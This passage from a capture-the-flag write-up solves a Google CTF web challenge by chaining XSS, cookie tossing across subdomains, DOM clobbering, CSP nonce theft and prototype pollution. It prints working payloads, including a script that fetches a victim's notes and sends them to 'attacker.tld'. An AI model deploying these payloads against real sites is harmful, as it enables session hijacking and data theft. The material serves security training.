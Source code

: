 ```html
  location='https://fixedthings-vwatzbndzbawnsfs.web.ctfcompetition.com/note/*ATTACKER_PRIVATE_NODEID*?__debug__';
</script>
```

And, we got Self-XSS, this report is not eligible for a bounty, closed.

### XSS

In the last step, we need to make the private note available to the XSS bot. Since there is XSS on `pasteurize.web.ctfcompetition.com`, an attacker can set a cookie on `*.web.ctfcompetition.com`, which will be available on `fixedthings-vwatzbndzbawnsfs.web.ctfcompetition.com`.

When checking authorization, task web server uses the first cookie in the HTTP header as a result. Since we are not overwriting the existing `session` and `session.sig` cookies, but adding another one, we need to set up the attributes which will make our cookies to be the first among others. Browsers sort cookies by the date they were added and by the matching path attribute prefix.

If the attacker adds the following cookies:
```
document.cookie='session.sig=*ATTACKER_SIG*; domain=.web.ctfcompetition.com; path=/note/foobar'
document.cookie='session=*ATTACKER_SESSION*; domain=.web.ctfcompetition.com; path=/note/foobar'
```

On HTTP request `/note/foobar`, the attacker's cookie will be sent first and the web server will authorize the user to the attacker's profile. For any other HTTP requests, the XSS bot will be authorized as usual.

### Final Exploit

* Create private note in attacker profile with DOM Clobbering

```html
<a href="https://test/?x=document.body.firstElementChild.innerHTML=window.name.toString" id="theme" name="cb">x</a>
<b id="theme"/>
```

* Create public note with XSS

```http
POST / HTTP/1.1
Host: pasteurize.web.ctfcompetition.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

content[]="-(document.cookie='session.sig=*ATTACKER_SIG*; domain=.web.ctfcompetition.com; path=/note/*ATTACKER_PRIVATE_NODEID*',document.cookie='session=*ATTACKER_SESSION*; domain=.web.ctfcompetition.com; path=/note/*ATTACKER_PRIVATE_NODEID*',location='https://attacker.tld/part2.html')-"
```

* Attacker site

```html
<script>
  ifrs  = [
    "<iframe name=xss srcdoc='<script charset=fetch(&quot;/note&quot;).then(x=&amp;gt;x.text()).then(x=&amp;gt;parent.location=&quot;//attacker.tld?c=&quot;+btoa(x))><\/script>'></iframe> ",
    "<iframe srcdoc=\'<script src=/theme?cb=parent.xss.document.head.lastElementChild.nonce=parent.document.body.lastElementChild.nonce.valueOf><\/script>\'></iframe>",
    "<iframe srcdoc=\'<script src=/theme?cb=parent.xss.document.head.lastElementChild.innerHTML=parent.xss.document.head.lastElementChild.charset.toString><\/script>\'></iframe>",
  ];
  window.name='{"debugUser":true,"showAll":true,"x":"'+ifrs.join()+'","keepDebug":true,"verbose":true,"__proto__":["all"]}';

  location='https://fixedthings-vwatzbndzbawnsfs.web.ctfcompetition.com/note/*ATTACKER_PRIVATE_NODEID*?__debug__';
</script>
```